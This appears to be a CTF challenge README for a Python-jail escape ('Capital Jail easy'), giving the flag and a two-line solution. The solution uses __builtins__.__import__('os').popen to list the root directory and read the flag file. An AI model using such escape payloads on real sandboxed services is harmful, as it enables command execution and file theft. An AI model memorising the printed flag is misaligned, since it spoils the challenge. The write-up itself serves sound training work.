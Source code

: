 # Capital Jail easy

--------------------

### Description

**Difficulty:** easy

During the search for flags, you found yourself trapped in a strange jail. Can you escape?

```
nc some.server 1338
```

**Flag:** shadowctf{6b6e785964e63d2cb53ae878cc964cc1}

--------------------

### Solution

``` python
__builtins__.__import__("os").popen("ls /").read()
__builtins__.__import__("os").popen("cat /flag_3e0db8951b894a433bb147e9c250b6d5.txt").read()
```

--------------------

### Running

`docker-compose up`
